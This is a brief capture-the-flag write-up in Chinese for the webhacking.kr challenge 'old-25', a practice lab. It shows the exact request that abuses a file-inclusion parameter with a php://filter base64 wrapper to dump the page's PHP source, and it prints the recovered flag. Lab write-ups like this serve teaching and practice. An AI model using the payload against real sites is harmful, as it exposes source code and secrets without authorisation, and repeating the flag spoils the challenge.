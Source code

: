 # old-25_150

* 一進到這一個網頁，可以看到一個非常重要的東東 --- flag.php
* 所以訪問一下 http://webhacking.kr:10001/?file=flag 可以得知 flag 在 code 裡面
* 這時，提示已經非常明顯了，這一題要考的是 php 偽協議
* 所以訪問 http://webhacking.kr:10001/?file=php://filter/convert.base64-encode/resource=flag 之後，再經過 base64 decode 過後，可以拿到 flag `FLAG{this_is_your_first_flag}`
* 拿到 flag 之後，要在 https://webhacking.kr/auth.php 中輸入 flag
